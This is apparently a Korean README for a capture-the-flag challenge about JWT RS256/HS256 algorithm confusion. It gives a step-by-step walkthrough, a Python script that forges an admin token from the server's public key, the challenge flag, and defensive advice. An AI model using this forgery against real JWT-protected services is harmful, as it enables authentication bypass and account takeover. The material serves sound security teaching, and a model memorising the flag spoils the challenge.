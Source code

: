 # 🔐 JWT RS256/HS256 Algorithm Confusion CTF

JWT 토큰의 알고리즘을 RS256에서 HS256으로 변경하여 인증을 우회하는 CTF 문제입니다.

## 🎯 문제 목표

admin 계정으로 로그인하여 플래그를 획득하세요!

## 🚀 실행 방법

### Docker Compose 사용 (권장)

```bash
# 애플리케이션 실행
docker-compose up --build

# 브라우저에서 접속
http://localhost:5000
```

### 수동 실행

1. MySQL 서버 실행
2. Python 의존성 설치: `pip install -r requirements.txt`
3. Flask 애플리케이션 실행: `python app.py`

## 📋 문제 설명

이 웹사이트는 JWT 토큰을 사용하여 사용자 인증을 처리합니다.

### 초기 계정 정보
- **user**: user123 (일반 사용자)
- **admin**: admin123 (관리자)

### 취약점
서버는 RS256(비대칭키)으로 JWT 토큰을 생성하지만, 검증 시 JWT 헤더의 `alg` 필드를 신뢰합니다. 공격자가 헤더를 HS256으로 변경하고 대칭키로 서명을 생성하면 인증을 우회할 수 있습니다.

## 🎯 공격 방법

### 1단계: 일반 사용자로 로그인
- 사용자명: `user`, 비밀번호: `user123`으로 로그인
- JWT 토큰을 받습니다

### 2단계: JWT 토큰 분석
- "토큰 정보 보기" 버튼을 클릭하여 현재 토큰의 구조를 확인
- Header와 Payload를 분석

### 3단계: 알고리즘 혼동 공격
JWT 토큰을 다음과 같이 조작합니다:

1. **Header 수정**: `{"alg": "HS256", "typ": "JWT"}` (RS256에서 HS256으로 변경)
2. **Payload 수정**: `{"user_id": 1, "username": "admin", "role": "admin"}`
3. **Signature 생성**: 서버의 secret_key로 HMAC-SHA256 서명 생성

### 4단계: 공개키 획득 및 토큰 위조
http://localhost:5000/.well-known/jwks.json 경로에서 JWT 공개키 획득
아래 python 예시 코드로 JWT 토큰 위조

```python
# JWT 알고리즘 혼동 공격용 토큰 생성
import jwt
import datetime
import base64

# 서버 공개키의 JWK "n" 값을 base64url 디코딩하여 HMAC key로 사용
n_b64 = "..."  # jwks.json에서 n 값 복사
rem = len(n_b64) % 4
if rem > 0:
    n_b64 += '=' * (4 - rem)
hmac_key = base64.urlsafe_b64decode(n_b64.encode())

# 관리자 권한이 있는 페이로드 구성
payload = {
    "user_id": 1,
    "username": "admin",
    "role": "admin",
    "iat": datetime.datetime.utcnow(),
    "exp": datetime.datetime.utcnow() + datetime.timedelta(hours=12)
}

# 헤더를 HS256으로 명시
headers = {
    "alg": "HS256",
    "typ": "JWT"
}

# HMAC-SHA256으로 위조된 서명 생성
token = jwt.encode(payload, hmac_key, algorithm="HS256", headers=headers)
print(token)

```

### 5단계: Admin 권한 확인
"Admin 권한 확인" 버튼을 클릭하여 플래그를 획득!

## 🏆 플래그

성공하면 다음 플래그를 획득할 수 있습니다:
```
flag{JwtAlgHs256_problem_is_solved_gooooooood}
```

## 🔍 학습 포인트

1. **JWT 구조 이해**: Header, Payload, Signature의 역할
2. **알고리즘 혼동 공격**: RS256에서 HS256으로 변경하여 대칭키 검증으로 우회
3. **비대칭키 vs 대칭키**: RSA와 HMAC의 차이점 이해
4. **보안 취약점**: 서버 측 알고리즘 검증 부족

## 🛡️ 방어 방법

- 서버에서 JWT 헤더의 `alg` 필드를 신뢰하지 않기
- `algorithms` 파라미터를 명시적으로 설정하여 허용된 알고리즘만 사용
- 토큰 검증 시 알고리즘을 강제로 지정
- 공개키와 대칭키를 명확히 구분하여 사용

## 📝 참고 자료

- [JWT RFC 7519](https://tools.ietf.org/html/rfc7519)
- [JWT Security Best Practices](https://auth0.com/blog/a-look-at-the-latest-draft-for-jwt-bcp/) 